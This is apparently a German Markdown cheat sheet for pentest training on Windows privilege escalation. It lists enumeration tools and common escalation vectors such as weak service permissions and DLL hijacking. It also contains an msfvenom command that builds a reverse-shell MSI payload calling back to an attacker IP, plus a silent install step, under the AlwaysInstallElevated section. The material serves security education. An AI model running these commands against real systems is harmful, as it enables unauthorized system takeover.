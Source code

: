 # 🪟 Windows Privilege Escalation 

## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Nützliche Tools](#nützliche-tools)
- [Typische Escalation-Vektoren](#typische-escalation-vektoren)
- [Tipps zur Analyse](#tipps-zur-analyse)
- [Weiterführende Links](#weiterführende-links)
- [Haftungsausschluss](#haftungsausschluss)

## Einleitung

Diese Datei dokumentiert Methoden, Tools und Vorgehensweisen zur Privilegienerweiterung (Privilege Escalation) auf **Windows-Systemen**. Sie dient ausschließlich zu **Schulungszwecken** im Rahmen von Penetration Tests und Security-Audits durch autorisierte Fachkräfte.



## Nützliche Tools

### 1. `whoami`-Befehle

```bash
whoami /user           # Aktueller Benutzername mit SID
whoami /groups         # Gruppenmitgliedschaften (z. B. Admins)
whoami /priv           # Aktive Berechtigungen des Benutzers
```

### 2. `accesschk.exe` von Sysinternals

Tool zur Analyse von Zugriffsrechten:

```bash
accesschk.exe -uws "Benutzer" *               # Zugriffsrechte auf Dienste
accesschk.exe -ucqv Benutzer Pfad\zur\Datei  # Detaillierte Rechteprüfung
```

### 3. `Seatbelt.exe`

Tool zur Informationssammlung auf dem Zielsystem (C#):

```bash
Seatbelt.exe all
```

Funktioniert gut bei eingeschränkten Benutzerrechten – erkennt z. B. gespeicherte Passwörter, schwache Registry-Einstellungen usw.

### 4. `WinPEAS.exe`

Automatisiertes Enumeration-Tool:

```bash
WinPEASx64.exe oder WinPEASx86.exe
```

Identifiziert potenzielle Schwachstellen wie Dienste mit schwachen ACLs, ungesicherte Tasks, UAC-Bypass-Möglichkeiten etc.



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Typische Escalation-Vektoren

### 1. Unquoted Service Paths

Nicht in Anführungszeichen gesetzte Pfade in Diensten:

```bash
sc qc <ServiceName>
```

Pfad zu ausführbarer Datei enthält Leerzeichen → eigene Binärdatei einschleusen.

### 2. Schwache Dienstrechte (Insecure Permissions)

Benutzer hat Schreibrechte auf den Dienst:

```bash
accesschk.exe -uws Benutzer *
```

→ Dienstdatei oder Binärpfad ersetzen.

### 3. Scheduled Tasks mit schwachen Rechten

```bash
taskschd.msc
schtasks /query /fo LIST /v
```

→ Aufgabe manipulieren oder durch Trojaner ersetzen.

### 4. AlwaysInstallElevated (MSI-Bypass)

```bash
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Werte:

```
AlwaysInstallElevated    REG_DWORD    0x1
```

Dann:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f msi > shell.msi
msiexec /quiet /qn /i shell.msi
```

### 5. DLL Hijacking

Wenn ein ausführbares Programm DLLs aus unsicheren Pfaden lädt:

* `.dll` Datei mit Payload erstellen
* In priorisierten Ordnern (gleicher Pfad wie EXE) ablegen

Tools zur Analyse: [Procmon.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)

### 6. UAC-Bypass (User Access Control)

Identifiziere UAC-schwache Prozesse:

* `fodhelper.exe`
* `eventvwr.exe`

UACMe-Tool: [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)



## Tipps zur Analyse

* **PowerUp.ps1** (PowerShell Framework)
* **SharpUp** (C#): Enumeration wie PowerUp, aber für AV-Bypass geeignet
* **Windows Exploit Suggester – Next Generation**



## Weiterführende Links

* [GTFOBins Windows Pendant: LOLBAS](https://lolbas-project.github.io/)
* [Windows-Privilege-Escalation-Cheat-Sheet](https://github.com/netbiosX/Checklists)



## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---